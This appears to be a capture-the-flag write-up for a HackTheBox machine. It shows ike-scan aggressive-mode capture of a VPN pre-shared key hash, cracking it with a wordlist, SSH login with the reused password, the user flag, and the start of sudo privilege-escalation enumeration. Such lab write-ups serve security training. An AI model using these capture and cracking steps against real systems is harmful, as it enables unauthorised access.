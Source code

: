 The aggressive mode configuration is a critical vulnerability as it allows attackers to capture authentication material for offline cracking.

## Initial Access

### IKE Aggressive Mode Exploitation

IKE aggressive mode exposes the pre-shared key hash, making it vulnerable to dictionary attacks:

```bash
ike-scan -M --aggressive $TARGET -n ike@expressway.htb --pskcrack=psk_hash.txt
```

This captures the PSK hash for offline cracking.

### PSK Cracking
```bash
psk-crack -d /opt/lists/rockyou.txt psk_hash.txt
```

**Success**: The pre-shared key was cracked as `freakingrockstarontheroad`

### SSH Access
With the cracked PSK, attempt SSH login using the discovered username:

```bash
ssh ike@$TARGET
# Password: freakingrockstarontheroad
```

**Successful login** achieved! The same password used for the VPN PSK was reused for the SSH account.

### User Flag
Located at `/home/ike/user.txt`:
```
5ef9d5d919fa711e341f0c3d34667f1d
```

## Privilege Escalation

### System Enumeration

Running LinPEAS revealed several interesting findings:

**Key observations:**
- **Sudo version**: 1.9.17 (multiple installations detected)
- **Custom sudo binary**: `/usr/local/bin/sudo` (newer version)
- **Kernel**: 6.16.7+deb14-amd64 (recent Debian kernel)
- **User groups**: `ike` is member of `proxy` group

### Sudo Vulnerability Analysis

LinPEAS identified potential sudo vulnerabilities:
- CVE-2021-3156 (Baron Samedit) - less probable due to version
- **Custom sudo installation** in `/usr/local/bin/` suggests manual compilation
